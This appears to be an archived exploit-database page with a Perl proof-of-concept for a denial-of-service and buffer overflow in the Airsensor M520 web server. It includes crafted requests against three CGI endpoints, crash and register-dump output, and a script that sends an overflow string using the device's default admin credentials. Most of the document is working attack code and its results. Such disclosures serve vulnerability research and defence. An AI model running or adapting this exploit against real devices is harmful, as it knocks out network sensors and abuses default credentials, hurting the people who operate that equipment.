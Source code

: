 EXP
---

    #!/usr/bin/perl -w
    #
    # Airsensor M520 HTTPD Remote Preauth Denial Of Service and Buffer Overflow PoC
    #
    # The vulnerability is caused due to an unspecified error in the cgis
    # files filter used for configure propierties. This can be exploited by
    # sending a specially crafted HTTPS request (necessary authentication),
    # which will cause the HTTPS service on the system to crash.
    #
    # Requisites: "Use DHCP" option interface mark "No"
    #
    # Examples:
    #
    # GET https://192.168.100.100/adLog.cgi?%41%41%41 HTTP/1.1
    # GET https://192.168.100.100/post.cgi?%41%41%41 HTTP/1.1
    # GET https://192.168.100.100/ad.cgi?%41%41%41 HTTP/1.1
    #
    # Pinging:
    #
    # Before:
    #
    # Reply from 192.168.100.100: bytes=32 time<1ms TTL=64
    # Reply from 192.168.100.100: bytes=32 time<1ms TTL=64
    # Reply from 192.168.100.100: bytes=32 time<1ms TTL=64
    #
    # After:
    #
    # Hardware error.
    # Hardware error.
    # Hardware error.
    # Request timed out.
    # Request timed out.
    # Request timed out.
    #
    # C:\>nc -vvn 192.168.100.100 443
    # (UNKNOWN) [192.168.100.100] 443 (?): connection refused
    # sent 0, rcvd 0: NOTSOCK
    #
    # Buffer Overflow debug log:
    #
    # 1970-01-01 00:00:15   SYS-INFO:: AirDefense Firmware Version 4.4.1.4, Model = M520
    # 1970-01-01 00:00:15   SYS-CRIT:: SENSOR EXCEPTION ERROR
    # 1970-01-01 00:00:15   SYS-CRIT:: SENSOR VERSION NUMBER: 4.4.1.4
    # 1970-01-01 00:00:15   SYS-CRIT:: SENSOR Up Time:  00:08:51
    # 1970-01-01 00:00:15   SYS-CRIT:: Time of Exception: 1970-01-01 00:08:55
    # 1970-01-01 00:00:15   SYS-CRIT:: Exception ID = 10 ( Reserved Instruction)
    # 1970-01-01 00:00:15   SYS-CRIT:: Thread = HTTPD
    # 1970-01-01 00:00:15   SYS-CRIT:: MIPS Register Dump:
    # 1970-01-01 00:00:15   SYS-CRIT::  zero=0x00000000    at=0xfffffffe    v0=0x00000000    v1=0x00000000
    # 1970-01-01 00:00:16   SYS-CRIT::    a0=0x00000000    a1=0x3d000000    a2=0x00000010    a3=0x00000041
    # 1970-01-01 00:00:16   SYS-CRIT::    t0=0x00000000    t1=0x0000003d    t2=0x0000000b    t3=0x00000000
    # 1970-01-01 00:00:16   SYS-CRIT::    t4=0x802f799c    t5=0xf43dd40f    t6=0x0066a1a4    t7=0x4df0e494
    # 1970-01-01 00:00:16   SYS-CRIT::    s0=0x802f7dbf    s1=0x0000001f    s2=0x802f7910    s3=0x80120000
    # 1970-01-01 00:00:16   SYS-CRIT::    s4=0x80120000    s5=0x80986c30    s6=0x80120000    s7=0x80128afc
    # 1970-01-01 00:00:16   SYS-CRIT::    t8=0x480ec8cd    t9=0x742b7136    k0=0x802f78c8    k1=0x802f7910
    # 1970-01-01 00:00:16   SYS-CRIT::    gp=0x8015b070    sp=0x802f7910    fp=0x80128aec    ra=0x800b2534
    # 1970-01-01 00:00:16   SYS-CRIT:: Address of instruction that caused exception = 0x800b2534
    # 1970-01-01 00:00:16   SYS-CRIT:: Memory address at which adress exception occured = 0x00000000
    # 1970-01-01 00:00:16   SYS-CRIT:: Return address = 0x800b2534
    # 1970-01-01 00:00:17   SYS-CRIT:: Status Reg = 0x1000af03
    # 1970-01-01 00:00:17   SYS-CRIT:: Cache Reg = 0x00000000
    # 1970-01-01 00:00:17   SYS-CRIT:: Cause Reg = 0x30000028
    # 1970-01-01 00:00:17   SYS-CRIT:: Config Reg = 0x03fffbfb
    # 1970-01-01 00:00:17   SYS-CRIT:: Vector = 40
    # 1970-01-01 00:00:17   SYS-CRIT:: Processor Version = 0x00018009
    # 1970-01-01 00:00:17   SYS-CRIT:: Stack Trace Begin: "->" = return address
    # 1970-01-01 00:00:17   SYS-CRIT::   [802f7910]=0x802f7dbf
    # 1970-01-01 00:00:17   SYS-CRIT::   [802f7914]=0x00000000
    # 1970-01-01 00:00:17   SYS-CRIT::   [802f7918]=0x00000000
    # 1970-01-01 00:00:19   SYS-CRIT::   [802f7990]=0x80130000
    # 1970-01-01 00:00:19   SYS-CRIT::   [802f7994]=0x802f7db4
    # 1970-01-01 00:00:19   SYS-CRIT::   [802f7998]=0x80152e18
    # 1970-01-01 00:00:19   SYS-CRIT::   [802f799c]=0x80152ed8
    # 1970-01-01 00:00:19   SYS-CRIT::   [802f79a0]=0x802f7dbf
    # 1970-01-01 00:00:19   SYS-CRIT::   [802f79a4]=0x80986c30
    # 1970-01-01 00:00:19   SYS-CRIT::   [802f79a8]=0x802f8200
    # 1970-01-01 00:00:19   SYS-CRIT:: ->[802f79ac]=0x800f0450  <- return address
    # 1970-01-01 00:00:19   SYS-CRIT::   [802f79b0]=0x0d0a0074
    # 1970-01-01 00:00:21   SYS-CRIT:: Stack Trace End:
    #
    # The vulnerability has been reported in versions Airdefense
    #
    # Firmware Version 4.3.1.1, Model = M520
    # Firmware version 4.4.1.4, Model = M520
    #
    # More information:     http://www.airdefense.net
    #           http://support.airdefense.net
    #
    # Very special credits: str0ke, Kf, rathaous, !dsr, 0dd.
    #
    # and friends: nitr0us, crypkey, dex, xdawn, sirdarckcat, kuza55,
    # pikah, codebreak, h3llfyr3
    #
    # Alex Hernandez ahernandez [at] sybsecurity dot com
    #

    use strict;
    use LWP;
    use Data::Dumper;
    require HTTP::Request;
    require HTTP::Headers;

    my $string =    "%41%41%41";            # Strings to send
    my $method =    'GET';              # Method "GET" or "POST"
    my $uri =   'https://192.168.100.100';  # Factory default IP address
    my $content =   "/adLog.cgi?";          # Cgi's file to crash

    #my $content =  "/ad.cgi?";
    #my $content =  "/post.cgi?";
    #my $content =  "/logout.cgi?";

    my $headers = HTTP::Headers->new(

    'Host:'                 => '192.168.100.100',
    'User-Agent:'           => 'Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.8.1.6) Gecko/20070725 Firefox/2.0.0.6',
    'Accept:'               => 'text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5',
    'Accept-Language:'      => 'en-us,en;q=0.5',
    'Accept-Charset:'       => 'ISO-8859-1,utf-8;q=0.7,*;q=0.7',
    'Keep-Alive:'           => '300',
    'Connection:'           => 'keep-alive',
    'Referer:'          => 'https://192.168.100.100/adLog.cgi?submitButton=refresh&refresh=Refresh',
    'Authorization:'    => 'Basic YWRtaW46YWlyc2Vuc29y', # base64 encode admin:airsensor

    );

    my $request = HTTP::Request->new($method, $uri, $headers, $content, $string);

    my $ua = LWP::UserAgent->new;
    my $response = $ua->request($request);

    print "[+] Denial of Service exploit for Airsensor M520 Final\n";
    print "[+] Coded by: Alex Hernandez [ahernandez\@sybsecurity.com]\n";
    print "[+] We got this response from sensor: \n\n" . $response->content . "\n";

    my $data;
        foreach my $pair (split('&', $response->content)) {
            my ($k, $v) = split('=', $pair);
            $data->{$k} = $v;
    }

    if ($data->{RESULT} != 0) {

        print "[+] Denial of Service exploit for Airsensor M520 Final\n";
        print "[+] Coded by: Alex Hernandez[ahernandez\@sybsecurity.com]\n";
        print "[+] Use:\n";
        print "\tperl -x dos_sensor.pl\n";
        print $data->{RESPMSG} . "\n";
        exit(0);

    } else {

        print "[+] Denial of service Exploit successed!!!\n";
        print "[+] By Alex Hernandez[ahernandez\@sybsecurity.com]\n";
    }

    # milw0rm.com [2007-09-18]